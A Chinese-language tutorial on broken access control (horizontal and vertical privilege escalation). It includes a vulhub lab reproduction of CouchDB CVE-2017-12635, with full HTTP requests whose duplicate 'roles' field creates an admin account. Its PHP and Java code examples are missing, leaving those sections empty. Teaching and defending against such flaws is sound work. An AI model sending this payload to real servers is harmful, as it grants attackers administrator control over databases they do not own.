

## 简介

越权访问（Broken Access Control，简称BAC）是Web应用程序中一种常见的漏洞，一般是指应用程序未对当前用户操作的身份权限进行严格校验，导致用户可以操作超出自己管理权限范围的功能，从而操作一些非该用户可以操作的行为。

## 应用场景

越权漏洞一般可以分为：垂直越权，水平越权两种


- **水平越权**

攻击者可以访问与他拥有相同权限的用户的资源，资源权限ID不变，资源归属ID改变；

攻击者尝试访问与他拥有相同权限的用户资源。例如，用户A和用户B属于同一角色，拥有相同的权限等级，他们能获取自己的私有数据（数据A和数据B），但如果系统只验证了能访问数据的角色，而没有对数据做细分或者校验，导致用户A能访问到用户B的数据（数据B），那么用户A访问数据B的这种行为就叫做水平越权访问。


- **垂直越权**

低级别攻击者可以访问高级别权限用户的资源，资源权限ID不变，资源归属ID改变；

低级别攻击者可以访问高级别权限用户的资源，资源权限ID改变，资源归属ID不变；

由于后台应用没有做权限控制，或仅仅在菜单、按钮上做了权限控制，导致恶意用户只要猜测其他管理页面的URL或者敏感的参数信息，就可以访问或控制其他角色拥有的数据或页面，达到权限提升的目的


## 产生原因

### 通过隐藏 URL

实现控制访问有些程序的管理员的管理页面只有管理员才显示，普通用户看不到，利用 URL 实现访问控制，但 URL 泄露或被恶意攻击者猜到后，这会导致越权攻击。

### 直接对象引用

这种通过修改一下参数就可以产生水平越权，例如查看用户信息页面 URL 后加上自己的 id 便可查看，当修改为他人的 ID 号时会返回他人的信息，便产生了水平越权。

### 多阶段功能

多阶段功能是一个功能有多个阶段的实现。例如修改密码，可能第一步是验证用户身份信息，号码验证码类的。当验证成功后，跳到第二步，输入新密码，很多程序会在这一步不再验证用户身份，导致恶意攻击者抓包直接修改参数值，导致可修改任意用户密码。

### 静态文件

很多网站的下载功能，一些被下载的静态文件，例如 pdf、word、xls 等，可能只有付费用户或会员可下载，但当这些文件的 URL 地址泄露后，导致任何人可下载，如果知道 URL 命名规则，则会便利服务器的收费文档进行批量下载

### 平台配置错误

一些程序会通过控件来限制用户的访问，例如后台地址，普通用户不属于管理员组，则不能访问。但当配置平台或配置控件错误时，就会出现越权访问。

## 漏洞复现

这里使用[CouchDB垂直越权](https://vulhub.org/#/environments/couchdb/CVE-2017-12635/)作为一个简单示例

Apache CouchDB是一个开源数据库，专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式，JavaScript作为查询语言，MapReduce和HTTP作为API的NoSQL数据库。应用广泛，如BBC用在其动态内容展示平台，Credit Suisse用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web和应用程序）。
在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12635是由于Erlang和JavaScript对JSON解析方式的不同，导致语句执行产生差异性导致的。这个漏洞可以让任意用户创建管理员，属于垂直权限绕过漏洞。
影响版本：小于 1.7.0 以及 小于 2.1.1

利用`docker-compose` 安装好环境，访问http://192.168.196.128:5984/_utils/#login，可以看见一个web登录页面


发送如下数据包，其中secTest 可以修改为任意用户，不过需要和json中的name字段相同

```http
PUT /_users/org.couchdb.user:secTest HTTP/1.1
Host: 192.168.196.128:5984
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.96 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.196.128:5984/_utils/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: AuthSession=
If-Modified-Since: Sat, 02 Dec 2017 15:49:03 GMT
Content-Type: appliaction/json
Connection: close
Content-Length: 93

{
  "type": "user",
  "name": "secTest",
  "roles": ["_admin"],
  "password": "123456"
}
```

发现是被禁止的，只有管理员才能设置Role角色


发送包含两个roles的数据包，即可绕过限制：

```http
PUT /_users/org.couchdb.user:secTest HTTP/1.1
Host: 192.168.196.128:5984
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.96 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.196.128:5984/_utils/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: AuthSession=
If-Modified-Since: Sat, 02 Dec 2017 15:49:03 GMT
Content-Type: appliaction/json
Connection: close
Content-Length: 109

{
  "type": "user",
  "name": "secTest",
  "roles": ["_admin"],
  "roles": [],
  "password": "123456"
}
```

成功创建管理员，账户为secTest，密码为123456


再次访问http://192.168.196.128:5984/_utils/，输入账户`secTest`密码`123456`，可以成功登录：


## 代码举例

### 0x1 PHP

> [!WARNING]错误示例
>
> 查看订单接口部分代码


在上面的代码中，可以看到通过对`orderID` 进行带入数据库进行查询，但是并未对用户权限进行校验，未判断当前用户是否拥有查看该订单信息的权限，当攻击者遍历`orderID`则可以获取所有的订单信息<span style="color:red">（包括不是自己的订单）</span>

> [!TIP]正确示例



正确的做法是如上面代码，可以看到，对当前的`orderID`，以及用户的`sessionID`进行关联，当查看当前用户的订单id时，在数据库中，若没有`sessionID`与`OrderID`没有对应起来，那么是无法查询到的，也就对权限进行校验了（只不过在校验的本质还是在数据库中）。

### 0x2 JAVA

> [!WARNING]错误示例
>
> 查看订单接口部分代码


> [!TIP]正确示例


## 参考链接

https://www.freebuf.com/company-information/233800.html

https://zhuanlan.zhihu.com/p/130919069

https://vulwiki.readthedocs.io/zh_CN/latest/web/yuequan/

